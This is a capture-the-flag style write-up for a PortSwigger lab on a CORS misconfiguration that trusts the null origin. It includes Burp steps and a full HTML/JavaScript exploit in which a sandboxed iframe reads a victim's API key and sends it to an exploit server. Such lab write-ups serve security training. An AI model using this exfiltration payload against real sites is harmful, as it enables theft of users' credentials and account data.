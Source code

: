 # CORS vulnerability with trusted null origin

## Description

[This website](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack) has an insecure CORS configuration in that it trusts the `null` origin.  

## Reproduction and proof of concept

1. Start Burp, foxyproxy, and with intercept off, log in to `wiener:peter` on the target site and access the account page.
2. In Burp, review the **HTTPhistory**. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Analysis:
* Browsers will never send cookies if wildcard origins are used, regardless of the content of the `Access-Control-Allow-Credentials` header. The inclusion of the session cookies in the request, so wildcard origins can not be abused here.
* Null origin allows access to the response if the `Access-Control-Allow-Credentials` header is set to true.
4. Send the request to **Burp Repeater**, and resubmit it with the added header `Origin: null`. Check that the `null` origin is reflected in the `Access-Control-Allow-Origin` header of the response.

![CORS](../../_static/images/cors4.png)

Took a break. Timed out. `lab-id` change.

5. Create exploit (replacing `lab-id` and `exploit-server-id`). The [iframe sandbox generates a null origin request](https://webdbg.com/test/sandbox/frames.htm).

```text
<html>
    <body>
        <iframe style="display:none" sandbox="allow-scripts" srcdoc="<script>
            var req = new XMLHttpRequest();
            var url = 'https://lab-id.web-security-academy.net/'
            
            req.onreadystatechange = function () {
                if (req.readyState == XMLHttpRequest.DONE) {
                    fetch('https://exploit-server-id/log/key=' + req.responseText)
                }
            };
            
            req.open('get', url + 'accountDetails',true);
            req.withCredentials = true;
            req.send(null);
        </script>"></iframe>
    </body>
</html>
```

5. Go to the exploit server and enter the exploit in the body field of the form.
6. Click **View exploit** and check you land on the log page and check the API key of the current account is in the URL.

![CORS](../../_static/images/cors5.png)

7. **Deliver exploit to victim**.
8. Go to **Access log**

![CORS](../../_static/images/cors6.png)

9. Copy the administrator's API key, and enter it as solution to the lab.

## Exploitability

An attacker needs to craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to the exploit server. 

